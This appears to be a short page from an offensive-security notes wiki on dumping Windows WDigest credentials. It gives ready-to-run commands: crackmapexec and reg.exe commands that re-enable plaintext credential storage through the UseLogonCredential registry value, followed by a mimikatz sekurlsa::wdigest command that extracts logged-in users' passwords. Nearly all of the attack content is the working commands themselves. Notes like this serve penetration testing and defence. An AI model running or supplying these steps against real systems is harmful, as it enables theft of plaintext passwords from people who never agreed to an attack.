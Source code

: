 ```yaml
---
title: Dump WDigest
---
```


[[notes/windows/credential-access-admin]]

WDigest contains passwords of logged in users in plain text, but is disabled by default since Windows Server 2012 R2 / Windows 8.1.

Set a registry key to reenable WDigest, no reboot required ([source](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb 192.168.0.76 -u testadmin -p Password123 -M wdigest -o action=enable
    crackmapexec smb 192.168.0.76 -u testadmin -p Password123 -M wdigest -o action=disable
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ~~~

Dump passwords after new logins.

~~~ bat
.\mimikatz.exe sekurlsa::wdigest exit
~~~
